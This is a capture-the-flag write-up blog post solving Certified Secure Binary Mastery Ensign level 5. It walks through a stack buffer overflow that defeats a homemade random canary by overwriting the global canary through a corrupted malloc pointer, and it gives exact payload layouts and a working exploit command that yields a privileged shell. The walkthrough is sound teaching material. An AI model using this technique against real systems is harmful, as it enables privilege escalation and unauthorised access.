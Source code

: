```yaml
---
title:  "[CTF] Binary Master Ensign - 5"
---
```


![Logo](/assets/images/belts-blue.png)


In this post we'll continue with level5, the last one from **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing again with more buffer overflow issues but we'll have to defeat a homemade implementation of buffer overflow detection. This is the most interesting level so far and it hides yet another logical vulnerability that will allow us to defeat the random stack canary.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level5
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level5
```

NX is disabled and again there is no stack canary. Why enable the stack cookie when we can do it ourselves, right?. Let's verify whether the stack is executable:

```
$ readelf -lW level5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int canary;

void __attribute__ ((constructor)) generate_canary() {
        FILE* fp = fopen("/dev/urandom", "r");
        fread(&canary, 4, 1, fp);                                [1]      
}

void hello(char* name) {
        int cookie = canary;
        int i = 0x12345;
        char* msg = malloc(128);
        char buf[12];

        strcpy(buf, name);                                       [4]
        sprintf(msg, "%s, it's good to see you!\n", buf);        [5]

        printf("%s", msg);

        if (cookie != canary) {                                  [3]        
                printf("*** stack smashing detected ***\n");

                abort();
        }
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        hello(argv[1]);                                          [2]

        return 0;
}
```

First let us understand how the program works:
* We have one constructor that generates a random 4 bytes canary by reading **/dev/urandom** (**[1]**)
* The **Main** function accepts one input parameter which is passed to the **hello** function (**[2]**).
* The **hello** function assigns the value of the canary to the first variable on the stack - **cookie**. 
* In case any buffer overflow would try to overwrite the return address, it would have to overwrite also the cookie. But this would trigger a program termination with an error (**[3]**). Not good.

Now let's see how we can break it. Again a stack layout of the function is very useful. We need to understand where each variable is located and which ones we can overwrite. Below I've renamed the variables in IDA to reflect the source code from level5.c:

![Stack layout](/assets/images/bm5-1.png)

* The **strcpy** call at **[4]** can overwrite the address of the newly allocated memory block in **msg**, which is located immediately after the buffer.
* The **sprintf** call at **[5]** will write from **buf** to the address we've just overwritten by the call before.
* Basically we have a primitive that allows us to overwrite an arbitrary memory address.

## 2 - Exploit

### Overwriting the canary

Because the canary is stored in a global variable, in a writeable section (check the permissions of **.bss** section with `readelf -S level5`), we can overwrite it:

![Global variable](/assets/images/bm5-2.png)

Then we'll supply our overwritten canary value in the buffer and carry on the exploitation as usual. Based on the observation above, a simple payload that just overwrites the canary with 0x01020304 would look like this:
```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" |
```

Explanation:
* At offset 12 in the payload we place the address that will overwrite (at **[4]**) the pointer generated by **malloc**
* First 4 bytes of the payload will be written to that address at **[5]**

We can test this in GDB and make sure we got this first step right:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08"')
```

### Overwriting the return address

Building on the findings from the previous point, the next payload achieves full control of EIP, without triggering the error message:

* Overwrites the canary, as above
* Sends a buffer with the correct overwritten canary value, which will overwrite the **cookie** variable
* Overwrites the return address from **hello** function with "XXXX"

```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" | JUNK (4 bytes) | "\x04\x03\x02\x01" | JUNK (12 bytes) | RET | 
```

If it's not clear why, check again the stack layout from the image above. Basically the 4 bytes of junk represents the **i** variable, next we have the value that will overwrite **cookie** (has to be the same as the canary), 12 more junk bytes then the value for the return address.

Again, test this first in GDB:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" + "\x01\x02\x03\x04" + 12*"A" + "XXXX"')
```

### Shellcode

In this case we can use the same approach as for levels 1-3 and place a shellcode spawning /bin/dash into an environment variable. Check [level1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html) for more details.

## 3 - Profit

```
$ /levels/level5  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" +  "\x04\x03\x02\x01" + 12*"A" + "\xd6\xd8\xff\xff"')
AAAAAAAA@JUNKAAAAAAAAAAAA���, it's good to see you!
$ id
uid=1006(level5) gid=1006(level5) euid=1007(level6) groups=1007(level6),1006(level5)
$ /home/level6/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved the last level!. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level5 @ binary mastery ensign)
   * the exploit
```

This was the last level in this challenge set. Next set of levels, [Binary Mastery: Lieutenant](https://www.certifiedsecure.com/certification/view/37) will be even more fun :) as they include modern day vulnerabilities and mitigation techniques. In the [next part](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html) we'll look at bypassing the **NX** bit using **return to libc** technique.
